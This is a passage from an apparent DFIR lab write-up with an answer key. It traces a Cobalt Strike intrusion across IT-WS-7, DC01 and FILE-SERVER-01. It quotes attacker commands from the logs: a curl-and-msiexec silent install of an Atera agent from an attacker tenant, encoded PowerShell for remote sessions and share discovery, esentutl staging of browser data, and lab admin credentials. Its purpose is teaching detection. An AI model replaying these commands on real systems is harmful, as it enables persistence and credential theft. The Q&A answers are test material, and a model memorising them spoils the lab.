Reason: At `2026-03-25 00:36:44 UTC`, the compromised `manalalberta` session on `IT-WS-7` executed `cmd.exe` (ProcessGuid `{c73af8d8-2e1c-69c3-5914-000000005400}`, PID `8536`) running `esentutl.exe /r` against the user's WebCache database. `esentutl.exe` is a native Windows Extensible Storage Engine (ESE) utility; the `/r` flag performs transaction log recovery against an ESE database, which in the context of `WebCache` means the attacker was recovering or staging browser history, cookies, or cached credentials stored in Edge/Internet Explorer's `WebCacheV01.dat`.

The critical detail is the parent: `\\FILE-SERVER-01\shares$\fsrv.exe` (ParentProcessGuid `{c73af8d8-24f6-69c3-5813-000000005400}`, PID `5004`). A UNC path in the `ParentImage` field confirms `fsrv.exe` executed directly from a remote SMB share rather than a local copy, meaning no binary was dropped to disk on `IT-WS-7`. `manalalberta`'s existing write and execute permissions on that share path made this possible without any additional access setup (MITRE ATT&CK T1021.002: Remote Services: SMB/Windows Admin Shares, T1005: Data from Local System).

```xml
index=* "FILE-SERVER-01\\shares$\\fsrv.exe" EventDescription="Process Create"

		<EventID>1</EventID>
		<TimeCreated SystemTime='2026-03-25T00:36:44.3805799Z'/>
		<Execution ProcessID='3512' ThreadID='4912'/>
		<Channel>Microsoft-Windows-Sysmon/Operational</Channel>
		<Computer>IT-WS-7.organcorp.local</Computer>
		<Data Name='ProcessGuid'>{c73af8d8-2e1c-69c3-5914-000000005400}</Data>
		<Data Name='CommandLine'>C:\Windows\system32\cmd.exe /C esentutl.exe /r V01 /l"C:\Users\&lt;redacted&gt;\AppData\Local\Microsoft\Windows\WebCache" /s"C:\Users\&lt;redacted&gt;\AppData\Local\Microsoft\Windows\WebCache" /d"C:\Users\&lt;redacted&gt;\AppData\Local\Microsoft\Windows\WebCache"</Data>
		<Data Name='CurrentDirectory'>C:\Users\manalalberta\Desktop\dmarc\google.com!organcorp.com!1690000000!1690086400\google.com!organcorp.com!1690000000!1690086400\</Data>
		<Data Name='User'>ORGANCORP\manalalberta</Data>
		<Data Name='ParentImage'>\\FILE-SERVER-01\shares$\fsrv.exe</Data>
		<Data Name='ParentCommandLine'>\\FILE-SERVER-01\shares$\fsrv.exe</Data>
```

**Q20**- The payload executed during lateral movement was a beacon from what well-known C2 framework?

Answer: Cobalt Strike

Reason: `fsrv.exe` (SHA256 `5B68189C34DD5035AEE8C366815548CD547E95B104740127D9533DDCF20BB902`), executed from `\\FILE-SERVER-01\shares$\` during lateral movement, is confirmed as a Cobalt Strike Beacon. The import hash (imphash) `17B461A082950FC6332228572138B80C` matches 121+ samples tagged Cobalt Strike on MalwareBazaar, providing a strong cluster-level attribution independent of the hash itself: [https://bazaar.abuse.ch/sample/b34a3bc7e931116ebb4f10b89eb9f711bd180a0323b1fe272091dae44e9b6896/](https://bazaar.abuse.ch/sample/b34a3bc7e931116ebb4f10b89eb9f711bd180a0323b1fe272091dae44e9b6896/)

PEStudio's static indicators corroborate the identification across four dimensions:

- The GUI subsystem flag suppresses any console window at runtime, a common Beacon characteristic to avoid visible process artifacts.
- File entropy of `7.208` indicates an encrypted embedded configuration, consistent with Beacon's practice of storing its Command and Control (C2) profile, sleep interval, and jitter settings in an XOR or AES-encrypted blob.
- A Transport Layer Security (TLS) callback entry point is used by Beacon's loader to execute code before the standard entry point, a technique for evading some sandbox analyses that only trace from `main`.
- Finally, the import of `CreateNamedPipeA` supports two known Beacon capabilities: SMB peer-to-peer C2 for chaining Beacons through internal hosts, and fork-and-run job output capture where post-exploitation jobs pipe results back to the Beacon via named pipe.

```xml
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "fsrv.exe"  Image="C:\\Users\\Public\\Downloads\\fsrv.exe"  EventDescription="Process Create" | table  _time,Image,CommandLine

		<EventID>1</EventID>
		<TimeCreated SystemTime='2026-03-24T23:26:40.856145800Z'/>
		<Data Name='ProcessId'>7388</Data>
		<Data Name='Image'>C:\Users\Public\Downloads\fsrv.exe</Data>
		<Data Name='CommandLine'>"C:\Users\Public\Downloads\fsrv.exe" </Data>
		<Data Name='CurrentDirectory'>C:\Users\Public\Downloads\</Data>
		<Data Name='User'>ORGANCORP\domain.admin</Data>
		<Data Name='Hashes'>SHA1=8742A56FD0F3B882E808627676AC4AC0AD262C05,MD5=8E38C17A5CC045A79233F4AF9A26D042,SHA256=5B68189C34DD5035AEE8C366815548CD547E95B104740127D9533DDCF20BB902,IMPHASH=17B461A082950FC6332228572138B80C</Data>
		<Data Name='ParentImage'>C:\Windows\explorer.exe</Data>
		<Data Name='ParentUser'>ORGANCORP\domain.admin</Data>
```

**Q21**- What is the MD5 hash of the public key found in the C2 beacon's configuration?

Answer: `07e8d31ff072cabf51c1aa50141d3f61`

Reason: The `fsrv.exe` Beacon configuration was extracted using `1768.py` from Didier Stevens' DidierStevensSuite, a purpose-built Python script for Cobalt Strike Beacon config extraction. It brute-forces single-byte XOR candidates (commonly `0x2e` or `0x69`), validates decoded output against the expected typed/length-prefixed config schema, and pretty-prints every field without requiring a debugger or sandbox. Here the XOR key resolved to `0x2e` against Cobalt Strike version `4.4`.

The extracted `0x0007` public key field contains a 256-byte buffer holding a DER-encoded 1024-bit RSA public key, padded with trailing zeros. Hashing the raw binary produces MD5 `07e8d31ff072cabf51c1aa50141d3f61`, which fingerprints this specific keypair. Threat actors routinely reuse the same RSA keypair across multiple Beacon builds and campaigns, making the public key MD5 a reliable cluster pivot: any other Beacon sharing `07e8d31ff072cabf51c1aa50141d3f61` likely belongs to the same operator or toolkit distribution, independent of C2 infrastructure changes between operations.

`1768.py` is the practical bridge from "this is a Beacon" to "here is exactly how this Beacon operates," producing actionable IOCs including C2 servers, sleep and jitter values, malleable C2 profile transforms, process injection settings, watermark/license ID for actor tracking, and the public key MD5 for campaign clustering.

```powershell
PS C:\Users\Administrator\Desktop\Start Here\Tools\Miscellaneous\DidierStevensSuite> python .\1768.py .\fsrv.exe

File: .\fsrv.exe
payloadType: 0x00002610
payloadSize: 0x00040e00
intxorkey: 0xfac09b7d
id2: 0x00000000
MZ header found position 4
Config found: xorkey b'.' 0x0003b630 0x00040dfc
0x0001 payload type                     0x0001 0x0002 0 windows-beacon_http-reverse_http
0x0002 port                             0x0001 0x0002 80
0x0003 sleeptime                        0x0002 0x0004 60000
0x0004 maxgetsize                       0x0002 0x0004 1048576
0x0005 jitter                           0x0001 0x0002 0
0x0007 publickey                        0x0003 0x0100 30819f300d06092a864886f70d010101050003818d0030818902818100997f3cf0315eb96df259f6d34151bf3571bbe52b8fbed36f7dea8384e8c81934fece0f34c654676dbb06145b804a73b3a8
fa623528092546f786829c37776fc6534f01b571e27c0a37163d631e833fb9d5f6694fdbfbc4090efb2888851efbc22828e96ee6321120cb399043499c4b641fca1f802c7f50aa73ceb77ebbb3aee30203010001000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
<SNIP>
```

```bash
$ echo -n "30819f300d06092a864886f70d010101050003818d0030818902818100997f3cf0315eb96df259f6d34151bf3571bbe52b8fbed36f7dea8384e8c81934fece0f34c654676dbb06145b804a73b3a8fa623528092546f786829c37776fc6534f01b571e27c0a37163d631e833fb9d5f6694fdbfbc4090efb2888851efbc22828e96ee6321120cb399043499c4b641fca1f802c7f50aa73ceb77ebbb3aee3020301000100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000" | xxd -r -p | md5sum
07e8d31ff072cabf51c1aa50141d3f61  -
```

# Collection

**Q22**- Before leaving beachhead host, The attacker used a native Windows utility to copy a locked browser database file. What is the name of this utility?

Answer: `esentutl.exe`

Reason: At `2026-03-25 00:36:44.378 UTC`, the Cobalt Strike Beacon (`fsrv.exe`) spawned `cmd.exe` on `IT-WS-7` as `ORGANCORP\manalalberta`, executing `esentutl.exe /r V01` against the WebCache directory with the log (`/l`), system (`/s`), and database (`/d`) paths all pointing to `C:\Users\<redacted>\AppData\Local\Microsoft\Windows\WebCache`.

The target is the legacy Internet Explorer and EdgeHTML (pre-Chromium) browsing artifact. Unlike modern Chromium-based Edge, which stores history in a SQLite file, the legacy engine stores cookies, credentials, and browsing history in `WebCacheV01.dat`, an ESE database that remains locked by the operating system while in use. `esentutl.exe /r` performs a soft recovery against the transaction logs, releasing the lock as a side effect and making the database stageable without direct file-copy operations. The `V01` argument is the log file prefix, confirming the target is specifically `WebCacheV01.dat`. Using a native Windows binary for this purpose is a Living off the Land Binary (LOLBin) technique that avoids third-party tooling entirely (MITRE ATT&CK T1005: Data from Local System, T1218: System Binary Proxy Execution).

```
Timestamp:   2026-03-25 00:36:44.378 UTC
Host:        IT-WS-7
User:        ORGANCORP\manalalberta
Parent:      \\FILE-SERVER-01\shares$\fsrv.exe
CommandLine: cmd.exe /C esentutl.exe /r V01
             /l"C:\Users\<redacted>\AppData\Local\Microsoft\Windows\WebCache"
             /s"C:\Users\<redacted>\AppData\Local\Microsoft\Windows\WebCache"
             /d"C:\Users\<redacted>\AppData\Local\Microsoft\Windows\WebCache"
Target:      WebCacheV01.dat (ESE, legacy IE/EdgeHTML artifact)
ProcessGuid: {c73af8d8-2e1c-69c3-5914-000000005400}
```

# Discovery

**Q23**- Using the compromised credentials, Attacker moved laterally to the domain controller via RDP, the attacker installed a tool to scan the network. What is the name of this network scanning tool?

Answer: `netscan.exe`

Reason: At `2026-03-25 00:18:28 UTC`, following Remote Desktop Protocol (RDP) lateral movement to `DC01` as `ORGANCORP\domain.admin`, the attacker used the pre-installed `C:\Program Files\7-Zip\7zG.exe` (the 7-Zip GUI binary) to extract `netscan.7z`, with Sysmon EventID 11 recording `netscan.exe` written to `C:\Users\domain.admin\AppData\Local\netscan\SoftPerfect Network Scanner\netscan.exe` (ProcessGuid `{E83373D5-29D3-69C3-1B0F-000000009D03}`, PID `2800`).

A subsequent attempt at `00:36:44 UTC` to extract the same archive via PowerShell's native `Expand-Archive` cmdlet failed because `Expand-Archive` only supports `.zip` format, leaving `.7z` archives unsupported. The failed attempt confirms the attacker initially tried a fileless-friendly extraction method before falling back to the pre-installed 7-Zip binary already present on `DC01`. Using software already installed on the target avoids dropping additional tooling, though the file creation event for `netscan.exe` still generated a Sysmon EventID 11 artifact regardless (MITRE ATT&CK T1046: Network Service Discovery, T1105: Ingress Tool Transfer).

```
index=* host=DC01 "netscan.exe" EventDescription="File Created"

Timestamp:     2026-03-25 00:18:28 UTC
Host:          DC01
User:          ORGANCORP\domain.admin
Extractor:     C:\Program Files\7-Zip\7zG.exe
Archive:       netscan.7z
Output:        C:\Users\domain.admin\AppData\Local\netscan\SoftPerfect Network Scanner\netscan.exe
ProcessGuid:   {E83373D5-29D3-69C3-1B0F-000000009D03} PID 2800
Failed Method: PowerShell Expand-Archive (.7z unsupported)
Sysmon Event:  EventID 11 (FileCreate)
```

**Q24**- From the domain controller, the attacker used a PowerShell cmdlet to establish a remote session with another server. What is the name of this cmdlet?

Answer: `Enter-PSSession`

Reason: At `2026-03-25 00:37:47 UTC`, the Cobalt Strike Beacon (`fsrv.exe`, ProcessGuid `{E83373D5-1DB0-69C3-B00D-000000009D03}`) running on `DC01` as `ORGANCORP\domain.admin` spawned `powershell.exe` (ProcessGuid `{E83373D5-2E5B-69C3-990F-000000009D03}`, PID `1436`) with a `-EncodedCommand` flag decoding to `Enter-PSSession -ComputerName FILE-SERVER-01`.

Base64-encoding the command via `-EncodedCommand` is a standard obfuscation step to avoid the plaintext command appearing directly in process creation logs, though Sysmon EventID 1 captures the encoded argument and decoding it is trivial. `Enter-PSSession` establishes an interactive PowerShell Remoting session over WinRM (Windows Remote Management), giving the attacker a live interactive shell on `FILE-SERVER-01` authenticated as `domain.admin`. This represents the next lateral movement hop in the chain: `IT-WS-7` to `DC01` via RDP, then `DC01` to `FILE-SERVER-01` via PowerShell Remoting, with the Beacon on `DC01` acting as the pivot point (MITRE ATT&CK T1021.006: Remote Services: Windows Remote Management, T1059.001: Command and Scripting Interpreter: PowerShell).

```powershell
index=* host=DC01 EventDescription="Process Create" ParentImage=*fsrv.exe*

powershell -nop -exec bypass -EncodedCommand RQBuAHQAZQByAC0AUABTAFMAZQBzAHMAaQBvAG4AIAAtAEMAbwBtAHAAdQB0AGUAcgBOAGEAbQBlACAARgBJAEwARQAtAFMARQBSAFYARQBSAC0AMAAxAA==

Timestamp:     2026-03-25 00:37:47 UTC
Host:          DC01
User:          ORGANCORP\domain.admin
Parent:        C:\Users\Public\Downloads\fsrv.exe
ParentGuid:    {E83373D5-1DB0-69C3-B00D-000000009D03}
Child:         powershell.exe PID 1436
ChildGuid:     {E83373D5-2E5B-69C3-990F-000000009D03}
Decoded Cmd:   Enter-PSSession -ComputerName FILE-SERVER-01
Obfuscation:   -EncodedCommand (Base64)
Protocol:      WinRM (PowerShell Remoting)
```

**Q25**- While in the remote session, the attacker executed a command to find network shares. What is the name of this command?

Answer: `Invoke-ShareFinder`

Reason: At `2026-03-25`, the Cobalt Strike Beacon (`fsrv.exe`, `C:\Users\Public\Downloads\fsrv.exe`) on `DC01` spawned `powershell.exe` with a `-EncodedCommand` decoding to `Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC`, a PowerView cmdlet that enumerates accessible network shares across the domain over SMB/Remote Procedure Call (RPC).

Despite the question framing this as activity within the remote session, execution occurred on `DC01` under `domain.admin`'s Beacon context. This is consistent with PowerView's design: `Invoke-ShareFinder` connects outbound to targets and queries them remotely, requiring no local execution on each host. The exclusion flags filter out default administrative shares (`ADMIN$`, `C$`, `IPC$`, print spoolers), narrowing results to non-standard shares likely to contain sensitive data. Given that `\\FILE-SERVER-01\shares$\fsrv.exe` was already identified earlier in the chain as the path from which the Beacon executed on `IT-WS-7`, this share enumeration likely served to map additional staging and exfiltration paths across the environment rather than locate `FILE-SERVER-01` for the first time (MITRE ATT&CK T1135: Network Share Discovery).

```powershell
index=* host="DC01" ParentCommandLine="\"C:\\Users\\Public\\Downloads\\fsrv.exe\""

powershell -nop -exec bypass -EncodedCommand SQBuAHYAbwBrAGUALQBTAGgAYQByAGUARgBpAG4AZABlAHIAIAAtAEUAeABjAGwAdQBkAGUAUwB0AGEAbgBkAGEAcgBkACAALQBFAHgAYwBsAHUAZABlAFAAcgBpAG4AdAAgAC0ARQB4AGMAbAB1AGQAZQBJAFAAQwA=

Host:        DC01
User:        ORGANCORP\domain.admin
Parent:      C:\Users\Public\Downloads\fsrv.exe
Decoded Cmd: Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
SystemTime:  2026-03-25T00:38:32.406705400Z
Tool:        PowerView (PowerSploit)
Obfuscation: -EncodedCommand (Base64)
Protocol:    SMB/RPC (outbound from DC01 to domain targets)
Sysmon:      EventID 1 (ProcessCreate)
```

# Persistence

**Q26**- The attacker deployed a legitimate Remote Management and Monitoring (RMM) tool on the domain controller to maintain access. What is the name of this tool?

Answer: Atera

Reason: At `2026-03-24 23:36:12 UTC`, the Cobalt Strike Beacon (`fsrv.exe`, ProcessGuid `{E83373D5-1DB0-69C3-B00D-000000009D03}`) on `DC01` spawned `cmd.exe` (ProcessGuid `{E83373D5-1FEC-69C3-F40D-000000009D03}`, PID `7732`) as `ORGANCORP\domain.admin`, executing a two-stage command: `curl` downloading the Atera Remote Monitoring and Management (RMM) agent installer from `HelpdeskSupport1771313245886.servicedesk.atera[.]com` to `setup.msi`, immediately followed by `msiexec /i setup.msi /qn` for silent installation.

Installing a legitimate, vendor-signed RMM agent as a backdoor is a deliberate tradecraft choice. Atera generates outbound traffic that blends with managed service provider activity, is unlikely to be blocked by endpoint or network controls, and provides persistent remote access that survives Beacon removal. The subdomain `HelpdeskSupport1771313245886.servicedesk.atera[.]com` follows Atera's standard tenant naming convention, meaning the attacker registered or compromised an Atera account to receive the connection rather than standing up custom infrastructure. Deploying this on the domain controller specifically maximizes persistence value: `DC01` is unlikely to be reimaged during incident response, and RMM agent traffic from a domain controller may attract less scrutiny than from a workstation (MITRE ATT&CK T1219: Remote Access Software, T1059.003: Command and Scripting Interpreter: Windows Command Shell).

```powershell
index=* host="DC01" ParentCommandLine="\"C:\\Users\\Public\\Downloads\\fsrv.exe\""

C:\Windows\system32\cmd.exe /C curl -L -o setup.msi "https://HelpdeskSupport1771313245886.servicedesk.atera.com/api/utils/agent-install/windows/?cid=1&amp;aeid=1f6aed4c4ccf435c8de60f14ef302824" &amp;&amp; msiexec /i setup.msi /qn

Timestamp:    2026-03-24 23:36:12 UTC
Host:         DC01
User:         ORGANCORP\domain.admin
Parent:       C:\Users\Public\Downloads\fsrv.exe
ParentGuid:   {E83373D5-1DB0-69C3-B00D-000000009D03}
Child:        cmd.exe PID 7732
ChildGuid:    {E83373D5-1FEC-69C3-F40D-000000009D03}
Command:      curl -L -o setup.msi <Atera URL> && msiexec /i setup.msi /qn
C2 Domain:    HelpdeskSupport1771313245886.servicedesk.atera[.]com
Sysmon:       EventID 1 (ProcessCreate)
```

# Attack Chain

| Time (UTC) | Host | Stage | Detail | MITRE |
| --- | --- | --- | --- | --- |
| Pre-incident | IT-WS-7 | Initial Access | Phishing email disguised as DMARC aggregate report ("Report Domain: organcorp.com") delivered to manalalberta via malicious sideloaded WebView2 mail app (40811eyack.com.MAIL_xsbsxxypt8dh6) | T1566.002 |
| 2026-03-24 22:03:01 | IT-WS-7 | Initial Access | Malicious archive google.com!organcorp.com!1690000000!1690086400.7z downloaded to manalalberta\Downloads (Sysmon EID 15) | T1204 |
| 2026-03-24 22:07:52 | IT-WS-7 | Execution | deploy.hta executed via mshta.exe (LOLBin) | T1218.005 |
| 2026-03-24 22:07:56 | IT-WS-7 | Execution | mshta.exe spawns powershell.exe -encodedcommand — gzip+b64 stage-2 script, XOR key 0x23, 795-byte shellcode runner; fetches andy.exe from 3[.]72[.]9[.]217:80/zISF via wininet.dll (ROR-13 API hashing) | T1059.001, T1027 |
| 2026-03-24 22:28:14 | IT-WS-7 | Execution | andy.exe written to C:\Users\manalalberta\AppData\Local\andy.exe (Sysmon EID 11) | T1105 |
| 2026-03-24 22:28:44 | IT-WS-7 | C2 | andy.exe (Covenant Grunt, SHA256 0F6600C3...) executed; beacons to 18[.]153[.]105[.]76:80 at 22:28:45 (Sysmon EID 3) | T1071.001, T1036 |
| 2026-03-24 22:37:15 | IT-WS-7 | Discovery / Credential Access | andy.exe runs PowerUp Invoke-AllChecks via embedded PowerShell runspace (RunspaceId 761740b2); discovers AlwaysInstallElevated + autologon creds organcorp.local\domain.admin:aduserad@26 in registry (AutoAdminLogon=1) | T1082, T1552.002 |
| 2026-03-24 22:37+ | IT-WS-7 | Privilege Escalation | organInstaller.msi executed via msiexec /quiet /qn exploiting AlwaysInstallElevated — SYSTEM-level code execution | T1548.002 |
| 2026-03-24 22:37+ to 23:36 | DC01 | Lateral Movement | RDP to DC01 as domain.admin:aduserad@26 (creds from autologon registry harvest); fsrv.exe (Cobalt Strike Beacon 4.4) dropped to C:\Users\Public\Downloads\fsrv.exe, beacons to 3[.]72[.]9[.]217:80 | T1021.001, T1078 |
| 2026-03-24 23:36:12 | DC01 | Persistence | fsrv.exe spawns cmd.exe: curl downloads Atera RMM agent from HelpdeskSupport1771313245886.servicedesk.atera.com → msiexec /i setup.msi /qn silent install — legitimate RMM as persistent backdoor | T1219 |
| 2026-03-25 00:18:28 | DC01 | Tool Transfer | netscan.7z (SoftPerfect Network Scanner) extracted via 7zG.exe to C:\Users\domain.admin\AppData\Local\netscan\SoftPerfect Network Scanner\netscan.exe (Sysmon EID 11); subsequent native Expand-Archive attempt failed (.7z unsupported) | T1105 |
| 2026-03-25 00:18:44 | FILE-SERVER-01 | Lateral Movement | domain.admin from 10[.]10[.]11[.]11 (DC01) accesses \FILE-SERVER-01\shares$ over SMB (Security EID 5145) | T1021.002 |
| 2026-03-25 00:36:44 | IT-WS-7 | Lateral Movement / C2 | Cobalt Strike Beacon fsrv.exe executed directly from \FILE-SERVER-01\shares$\fsrv.exe as manalalberta — UNC path execution, no local copy | T1021.002, T1071.001 |
| 2026-03-25 00:36:44 | IT-WS-7 | Collection | fsrv.exe spawns cmd.exe running esentutl.exe /r V01 against C:\Users<redacted>\AppData\Local\Microsoft\Windows\WebCache — copies locked legacy IE/EdgeHTML ESE database for credential/session harvesting | T1005, T1555 |
| 2026-03-25 00:37:47 | DC01 | Lateral Movement | fsrv.exe spawns powershell -encodedcommand decoding to Enter-PSSession -ComputerName FILE-SERVER-01 — WinRM session to FILE-SERVER-01 (port 5985) | T1021.006 |
| 2026-03-25 00:37+ | DC01 | Discovery | fsrv.exe spawns powershell -encodedcommand decoding to Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC — domain-wide non-standard share enumeration via SMB/RPC | T1135 |

## Text Tree

```powershell
[Phishing] DMARC lure email → manalalberta@organcorp.local (IT-WS-7)
    └── 40811eyack.com.MAIL_xsbsxxypt8dh6 (malicious WebView2 mail app)
        └── google.com!organcorp.com!1690000000!1690086400.7z downloaded  ← 2026-03-24 22:03:01
            └── deploy.hta  ← mshta.exe LOLBin, 22:07:52
                └── powershell.exe -encodedcommand  ← gzip+b64+XOR(0x23) shellcode runner, 22:07:56
                    └── shellcode → LoadLibraryA(wininet) → InternetConnectA(3[.]72[.]9[.]217:80) → GET /zISF
                        └── andy.exe dropped → C:\Users\manalalberta\AppData\Local\andy.exe  ← 22:28:14
                            └── andy.exe (Covenant Grunt, SHA256: 0F6600C3...)  ← 22:28:44
                                ├── [C2] beacon → 18[.]153[.]105[.]76:80  ← 22:28:45
                                └── [Discovery + CredAccess] PowerUp Invoke-AllChecks  ← RunspaceId 761740b2, 22:37:15
                                    ├── AlwaysInstallElevated = 1 (HKLM + HKCU)
                                    └── AutoAdminLogon = 1 → domain.admin:aduserad@26 in registry
                                        └── [PrivEsc] msiexec /quiet /qn /i organInstaller.msi  ← SYSTEM on IT-WS-7

[Lateral Movement — RDP] domain.admin:aduserad@26 → DC01 (10[.]10[.]11[.]11)
    └── fsrv.exe (Cobalt Strike Beacon 4.4) → C:\Users\Public\Downloads\fsrv.exe
        ├── [C2] beacon → 3[.]72[.]9[.]217:80  ← imphash 17B461A0, PublicKey MD5: 07e8d31f
        ├── [Persistence] cmd.exe → curl atera.com → msiexec /i setup.msi /qn  ← Atera RMM, 23:36:12
        ├── [Tool Transfer] 7zG.exe extracts netscan.7z → netscan.exe  ← 00:18:28
        │   └── Expand-Archive netscan.7z FAILED (.7z unsupported by native PS)
        ├── [Lateral Movement] powershell → Enter-PSSession -ComputerName FILE-SERVER-01  ← 00:37:47
        └── [Discovery] powershell → Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC

[Lateral Movement — SMB] domain.admin → \\FILE-SERVER-01\shares$  ← Security EID 5145, 00:18:44
    └── \\FILE-SERVER-01\shares$\fsrv.exe executed on IT-WS-7 as manalalberta  ← 00:36:44
        └── [Collection] cmd.exe → esentutl.exe /r V01
            └── C:\Users\<redacted>\AppData\Local\Microsoft\Windows\WebCache  ← legacy IE/EdgeHTML ESE DB copy
```

# Artifacts

**Network Indicators**

| Type | Value |
| --- | --- |
| Staging / shellcode delivery server | `3[.]72[.]9[.]217:80` |
| Shellcode HTTP path | `/zISF` |
| Covenant C2 server | `18[.]153[.]105[.]76:80` |
| Cobalt Strike C2 server | `3[.]72[.]9[.]217:80` |
| Atera RMM install URL | `hxxps://HelpdeskSupport1771313245886.servicedesk.atera[.]com/api/utils/agent-install/windows/?cid=1&aeid=1f6aed4c4ccf435c8de60f14ef302824` |

**Host Indicators — IT-WS-7**

| Type | Value |
| --- | --- |
| Malicious mail app | `40811eyack.com.MAIL_xsbsxxypt8dh6` |
| Initial malicious archive | `google.com!organcorp.com!1690000000!1690086400.7z` |
| Gmail thread ID (lure) | `KtbxLvhRWjDKFCvLNwcrhFlvzXJLkPNWqq` |
| Stage-1 HTA | `deploy.hta` |
| Stage-2 loader drop path | `C:\Users\manalalberta\AppData\Local\andy.exe` |
| andy.exe SHA256 | `0F6600C312D880D8A6271009CEEEF5C19647ABE3B452BCFAA206130D9A76F33E` |
| PrivEsc MSI | `C:\Users\Public\organInstaller.msi` |
| Cobalt Strike Beacon (UNC exec) | `\\FILE-SERVER-01\shares$\fsrv.exe` |
| Collection target | `C:\Users\<user>\AppData\Local\Microsoft\Windows\WebCache` |

**Host Indicators — DC01**

| Type | Value |
| --- | --- |
| Cobalt Strike Beacon path | `C:\Users\Public\Downloads\fsrv.exe` |
| fsrv.exe SHA256 | `5B68189C34DD5035AEE8C366815548CD547E95B104740127D9533DDCF20BB902` |
| fsrv.exe Imphash | `17B461A082950FC6332228572138B80C` |
| Beacon public key MD5 | `07e8d31ff072cabf51c1aa50141d3f61` |
| Network scanner archive | `C:\Users\domain.admin\AppData\Local\netscan.7z` |
| Network scanner binary | `C:\Users\domain.admin\AppData\Local\netscan\SoftPerfect Network Scanner\netscan.exe` |
| Atera RMM installer | `setup.msi` |

**Credentials**

| Type | Value |
| --- | --- |
| Autologon account | `organcorp.local\domain.admin` |
| Autologon password | `aduserad@26` |
| Registry key | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` |
| Registry value | `AutoAdminLogon = 1` |

**Malware Configuration (fsrv.exe — Cobalt Strike Beacon 4.4)**

| Parameter | Value |
| --- | --- |
| Payload type | `windows-beacon_http-reverse_http` |
| C2 server + URI | `3[.]72[.]9[.]217,/ga.js` |
| Post URI | `/submit.php` |
| Sleep / jitter | `60000ms / 0` |
| User-agent | `Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; BOIE9;SVSE)` |
| License ID (watermark) | `100000` |
| SpawnTo x86 / x64 | `%windir%\syswow64\rundll32.exe` / `%windir%\sysnative\rundll32.exe` |
| XOR key (config) | `0x2e` |
| CS version (guessed) | `4.4` |

# Lab Insights

- LOLBin chaining is the entire delivery mechanism. Every stage of initial execution relied exclusively on signed, native Windows binaries — mshta.exe, powershell.exe, msiexec.exe, esentutl.exe. No third-party dropper, no obvious malware binary at the delivery layer. The attacker reached SYSTEM on the beachhead without ever touching a file that AV would flag on write. Detection has to come from behavioral sequencing — specifically the parent-child process chains — not from any individual artifact in isolation.
- Autologon credentials in the registry are a domain-wide blast radius. A single misconfigured registry value (AutoAdminLogon=1) on one workstation exposed plaintext domain admin credentials that unlocked DC-level access. The credentials weren't cracked, phished, or relayed — they were sitting in the registry waiting to be read by any process with user-level access. This is the highest-leverage single misconfiguration in the lab and illustrates why CIS Benchmark controls for Winlogon autologon settings exist independently of password policy.
- Cobalt Strike Beacon identification is a layered process, not a single lookup. Hash lookup (SHA256) failed — custom-compiled Beacons are unique per build. Imphash succeeded because it reflects the import table structure, which stays consistent across builds of the same framework. Config extraction via [1768.py](http://1768.py/) then produced actionable intelligence: C2 infrastructure, sleep/jitter, malleable C2 profile, watermark (license ID), and a public key MD5 usable for campaign clustering. Each layer adds a different kind of attribution value.
- Sysmon gaps across hosts fundamentally change the investigation model. IT-WS-7 and DC01 had Sysmon coverage, FILE-SERVER-01 did not. The moment the attacker pivoted to FILE-SERVER-01, process-level visibility disappeared entirely and the investigation fell back to Security log correlation — logon events, share access audits — stitched together by timestamp and LogonId rather than ProcessGuid chains. Uneven sensor deployment doesn't just create blind spots; it forces the analyst to switch investigative models mid-chain without warning.
- RMM tools as persistence are hard to detect and harder to remove. Installing Atera alongside a Cobalt Strike Beacon gives the attacker two independent C2 channels — one stealthy (Beacon), one hiding in plain sight as legitimate remote management software. Atera is signed, communicates over HTTPS to known vendor infrastructure, and generates no inherently suspicious process or network behavior. Detecting it requires knowing it wasn't authorized — which demands an asset/software inventory baseline, not just a detection rule.
- The pyramid of pain plays out in real time. SHA256 hash — trivial to rotate, dead end. Imphash — recompile-resistant, confirmed framework. Behavioral indicators (named pipes, TLS callbacks, high entropy, GUI subsystem) — framework-level traits that survive across all builds. TTPs (Beacon's fork-and-run job model, malleable C2 profile, sleep/jitter pattern) — the hardest layer to change without replacing the framework entirely. Working through all four layers in a single artifact makes the hierarchy concrete rather than theoretical.

# Forensic Timeline

